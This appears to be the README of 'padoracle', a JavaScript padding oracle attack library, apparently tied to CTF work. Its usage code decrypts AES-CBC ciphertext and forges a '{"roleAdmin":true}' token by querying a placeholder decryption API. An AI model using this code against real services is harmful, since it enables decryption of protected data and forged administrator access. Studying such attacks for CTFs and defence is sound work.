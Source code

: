 ```javascript

const iv = Buffer.from('5061644f7261636c653a69762f636263', 'hex')
const cipher = Buffer.from('288598b4e3ee586ee260091da904a9c208a185349485172b1f8f9936941cb574', 'hex')

let result, plain

let cracker = new Cracker()
result = await cracker.crack(iv, cipher, challenge)
plain = pkcs7.unpad(result.plain).toString()

console.log(plain)
```


Generate a set of iv and ciphertext with specific plaintext:

```javascript
const Cracker = require('padoracle')
const got = require('got')

const API = `http://somewebsite/someapi` // The API that invokes decryption.
const DECRYPTION_ERROR = 'DECRYPTION FAILED' // The message returns by the webapp when decrypting failed.

const challenge = async (iv, cipher) => {
  let response = await got.post(API, {
    body: Buffer.concat([iv, cipher]).toString('base64'),
  }).catch((error) => error.response)
  if (response.body === DECRYPTION_ERROR) {
    return false
  }
  return true
}

const target = '{"roleAdmin":true}'
const size = 16

let cracker = new Cracker()
let { iv, cipher } = await cracker.modify(target, size, challenge)
console.log(iv, cipher)
```

See more examples in [tests](./test) .

### Cracker
- Cracker#crack(iv, cipher, challenge)
  - return `{ intermediary, plain }`
- Cracker#modify(target, size, challenge)
  - return `{ iv, cipher }`
- Cracker#broadcast

## References
- [Padding Oracle Attack](https://en.wikipedia.org/wiki/Padding_oracle_attack)
- [DDCTF 2019 Web 8](https://yelo.cc/2019/04/17/ddctf-2019-writeups-web-8.html)

## License
[Apache-2.0](./license) &copy; [yelo](https://github.com/imyelo)
